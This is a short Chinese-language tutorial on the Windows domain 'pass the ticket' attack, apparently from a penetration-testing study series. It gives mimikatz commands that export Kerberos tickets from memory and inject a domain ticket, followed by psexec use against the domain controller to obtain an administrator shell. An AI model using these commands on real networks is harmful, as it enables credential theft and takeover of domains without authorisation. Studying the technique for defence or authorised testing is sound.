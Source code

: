 ```yaml
---
title: 域渗透入门（三）pass the ticket
categories:
- WindowsDomain
tags:
- WindowsDomain
---
```


## 参考资料
- 乌云文章：《域渗透——Pass The Hash & Pass The Key》、《域渗透——Pass The Ticket》、《从活动目录获取域管理员权限的各种姿势》
- [https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
- [https://resources.infosecinstitute.com/pass-hash-pass-ticket-no-pain/#gref](https://resources.infosecinstitute.com/pass-hash-pass-ticket-no-pain/#gref)

## 录制的视频教程
- [域渗透实践篇（四）](https://www.bilibili.com/video/BV1ve411s7Qd)
1. pass the ticket

## ptt票据传递实践
pass the hash: 一把钥匙开所有的门锁

pass the ticket: 进入房间后，找到备用钥匙（高权限票据），以备用钥匙来开门。有效时间10小时，过期后可以重新导入内存。域内普通用户获得域管理员权限。

dir \\OWA2010SP3\C$

```
privilege::debug
sekurlsa::tickets /export		  #导出内存中的票据
kerberos::purge
以上命令可以写成下面的形式

mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit

mimikatz.exe "privilege::debug"  "kerberos::ptt [0;3e4]-2-1-40e00000-SRV-DB-0DAY$@krbtgt-0DAY.ORG" exit
```
### 获取到域管理员权限之后
```
net time /domain 		#查域控的主机名
psexec.exe \\OWA2010SP3 cmd.exe  		#使用域控主机名，获得域管理员权限的cmd shell
```

